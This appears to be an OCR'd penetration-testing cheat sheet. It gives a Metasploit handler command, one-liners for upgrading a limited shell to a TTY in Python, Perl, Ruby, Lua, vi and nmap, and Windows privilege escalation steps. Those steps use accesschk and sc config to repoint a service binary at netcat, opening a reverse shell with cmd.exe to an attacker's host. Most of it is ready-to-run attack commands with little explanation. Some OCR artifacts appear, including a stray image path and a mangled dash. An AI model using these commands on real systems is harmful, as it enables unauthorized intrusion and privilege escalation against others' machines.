 Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

----------------------------------------------------------------------------------------------------------------------
TTY Shells
----------------------------------------------------------------------------------------------------------------------
**Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like su from reverse shells.**
----------------------------------------------------------------------------------------------------------------------

**Python TTY Shell Trick**

python -c 'import pty;pty.spawn("/bin/bash")'

echo os.system('/bin/bash')

**Spawn Interactive sh shell**

/bin/sh -i

**Spawn Perl TTY Shell**

exec "/bin/sh";
perl —e 'exec "/bin/sh";'

**Spawn Ruby TTY Shell**

exec "/bin/sh"

**Spawn Lua TTY Shell**

os.execute('/bin/sh')

**Spawn TTY Shell from Vi**

Run shell commands from vi:

:!bash

**Spawn TTY Shell NMAP --interactive**

!sh

----------------------------------------------------------------------------------------------------------------------
Privilege Escalation
----------------------------------------------------------------------------------------------------------------------
**Windows:** 

* http://www.bhafsec.com/wiki/index.php/Windows_Privilege_Escalation

* Accesschk stuff
accesschk.exe /accepteula (first thing to do in CLI access)
accesschk.exe /accepteula -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe /accepteula -ucqv <SERVICE_NAME>
sc qc <SERVICE_NAME>
sc config <SERVICE_NAME> binpath= "C:\<NC.EXE_PATH> -nv <LHOST> <LPORT> -e C:\WINDOWS\System32\cmd.exe"
sc config <SERVICE_NAME> obj= ".\LocalSystem" password= ""
sc config <SERVICE_NAME> start= auto
net start <SERVICE_NAME>

